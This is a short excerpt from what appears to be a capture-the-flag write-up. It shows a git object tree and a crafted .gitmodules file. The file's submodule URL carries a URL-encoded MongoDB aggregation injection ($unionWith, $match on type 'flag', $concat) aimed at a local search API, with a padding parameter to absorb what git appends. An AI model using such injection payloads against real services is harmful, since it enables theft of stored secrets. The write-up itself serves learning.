 ```js
│   ├── 3f
│   │   └── cf9cafc0f52779237110b21a7f0af50dab4ae3
│   ├── 46
│   │   └── f8441e2fde9c4d0e1d50c96e61efc769831360
│   ├── 58
│   │   └── 7be6b4c3f93f93c489c0111bba5596147a26cb
│   ├── 59
│   │   └── a0d332be79581a6ac80ffe5850544fc61dfeb2
│   ├── 71
│   │   └── 378187800a15616aec81f8b23fecc2b22db88a
│   ├── 78
│   │   └── 556b4ea1b2c64c5610f10250d849f66183b37d
│   ├── 80
│   │   ├── 2f502578669a77ccb7cb62d1f3dd154cf4ebb9
│   │   └── ca17828ac9be05f8bab19d99a0a80ebc3fa653
│   ├── a7
│   │   └── e922e99542273b1c157ceec3a4e6786c73a9e0
│   ├── ae
│   │   └── 481417d07b9fccbb82d84fee5dc385fec06e54
│   ├── af
│   │   └── d9b9c4217d72841c88b19b226fea48501fa0a7
│   ├── c1
│   │   └── 7eaea6177b49f6874eed9fbc4ccad48afe86d9
│   ├── d3
│   │   └── e16dbd234df6afeef3a14dd1d16d56ad616295
│   ├── f5
│   │   └── b7d97312bfb5c5afb07a977a755941d724556b
│   └── ff
│       └── 64b7c729cfcf93e2f41bd2edc9c26d28e47ff5
└── refs
    └── heads
        └── master

26 directories, 40 files
```

With `.gitmodules`.  

```
└─$ cat .gitmodules
[submodule "pwn"]
        path = pwn
        url = http://127.0.0.1:5000/api/search?debug=true&filter=%7B%22%24facet%22%3A%7B%22p%22%3A%5B%7B%22%24unionWith%22%3A%7B%22coll%22%3A%22config%22%2C%22pipeline%22%3A%5B%7B%22%24match%22%3A%7B%22type%22%3A%22flag%22%7D%7D%2C%7B%22%24project%22%3A%7B%22_id%22%3A0%2C%22fatal%3A%22%3A%7B%22%24concat%22%3A%5B%22%20%22%2C%22%24value%22%5D%7D%7D%7D%5D%7D%7D%5D%7D%7D&pad=
        update = checkout
        ignore = all
```

Look at the `pad` parameter at the end to cancel any attributes `GIT` will put on the `URL` when processing it.  
